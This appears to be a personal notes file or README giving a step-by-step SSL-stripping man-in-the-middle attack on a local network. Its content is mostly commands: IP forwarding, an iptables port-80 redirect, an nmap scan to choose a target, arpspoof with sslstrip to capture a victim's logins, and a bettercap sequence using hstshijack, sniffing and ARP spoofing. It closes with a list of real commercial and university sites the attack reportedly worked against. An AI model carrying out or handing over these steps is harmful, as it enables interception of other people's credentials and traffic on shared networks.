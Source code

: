#### SSLStripping Process
1.  Enable ip_fowarding so the pc can route traffic
ip_forwarding -- sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
2. ip rerouting -- iptables...
3.  gateway ip address -- route -n
4. Scan target network to find a specific computer
5. nmap -sP 192.168.1.0/24
6. Review scan results and choose a target
7. Arpspoof to redirect the computers http traffic to our computer
7. Whilst that runs in the background start sslstrip
8. Login via the targets computer into some site
9. Review sslstrip log file  -- cat sslstrip.log
iptables affects the host where the command is executed. It modifies how that machine handles incoming and outgoing packets.

#### Quick overview of networking tools
iptables -t nat -A PREROUTING -p tcp --destination-port n - j REDIRECT --to-port N
iptables — modifies the NAT (Network Address Translation) table to redirect incoming TCP traffic on port port  n (in our case 80) over to to port N. 
-A PREROUTING — appends a rule to the prerouting chain, which processes packets before they are routed
-p tcp — specifies that the rule applies to tcp packets
-j redirect — specifies that packets should be redirected

#### arpspoof
arpspoof works at a low level, manipulating the ARP table entries of devices on the local network to redirect traffic without altering firewall rules or packet processing at higher layers.

manipulates the ARP tables of devices on the local network to make them believe that your machine's MAC address corresponds to another device's IP address (like the router or another host)

#### net.probe
net.probe enables network probing within bettercap, allowing the tool to discover devices on the network by sending arp requests and listening for responses

#### net.sniff
net.sniff activates packet sniffing, so bettercap will start capturing and analyzing the traffic flowing through the network

#### Bettercap Steps:
0. sudo bettercap -iface eth0
1. caplets.show (optional)
2. set http.proxy.sslstrip true
3. hstshijack/hstshijack
4. net.probe on
5. net.sniff on
6. arp.spoof on
* Note: ```help``` is always available if you don't know what to do.

#### Working Sites (in process)
**Sites that worked:**
alibaba
foxnews
ign.com
speedtest.com

**Institutional Sites:**
carleton.edu
mit.edu
washington.edu
and most likely more…

